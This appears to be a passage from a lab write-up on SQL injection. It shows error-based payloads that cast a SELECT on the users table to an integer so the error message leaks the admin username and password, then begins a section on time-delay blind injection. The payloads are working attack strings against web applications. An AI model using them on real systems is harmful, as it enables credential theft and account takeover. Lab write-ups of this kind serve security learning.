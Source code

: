 But if we try to adapt and put:

<figure><img src="../.gitbook/assets/2024-04-19_11-12.png" alt=""><figcaption></figcaption></figure>

we see the query is cut to a certain point, so we need to free some space by reducing the initial tracking ID

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

<figure><img src="../.gitbook/assets/2024-04-19_11-19.png" alt=""><figcaption></figcaption></figure>

The error is different, so now we can try printing out the password:

<figure><img src="../.gitbook/assets/2024-04-19_11-29.png" alt=""><figcaption></figcaption></figure>

and just like that we are able to connect to the admin account

final payload:

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

#### Exploiting blind SQL injection by triggering time delays

It is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.
